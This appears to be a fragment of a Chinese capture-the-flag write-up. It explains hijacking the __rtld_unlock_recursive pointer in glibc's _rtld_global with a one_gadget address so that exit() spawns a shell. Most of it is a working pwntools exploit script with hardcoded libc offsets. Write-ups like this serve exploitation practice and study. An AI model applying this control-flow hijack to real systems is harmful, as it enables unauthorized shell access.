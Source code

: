 

所以取出 libc里面的一个函数指针， 然后跳转过去， 写这个函数指针为 one_gadget , 然后调用exit 时就会拿到 shell。也就是将将_rtld_global结构体中的__rtld_unlock_recursive劫持为one_gadget就行。结构体在libc中，所需要一个字节一个字节的改，后三位改成one_gadget就能在执行exit函数时getshell了。

# exp

```python
from pwn import*
r = process('./pwn')
#r = remote('182.92.73.10',24573)
context.log_level ='debug'
gdb.attach(r)
payload = '''
char *s;
char *libcbase;
char *p;
int main()
{
    s = "aaaa";
	libcbase = s - (0x7ffff7f17028 - 0x7ffff7a0d000);
	s = libcbase + 6229832 - 3848 + 8;
	s[0] = 0;
	s = libcbase + 6229832;
	p = libcbase + 0xcd0f3;
	s[0] = p&0xff;
	s[1] = (p>>8)&0xff;
	s[2] = (p>>16)&0xff;
	printf("%p ", s);    
}
'''
payload = payload.replace('\n','')
r.sendline(payload)
r.interactive()
```

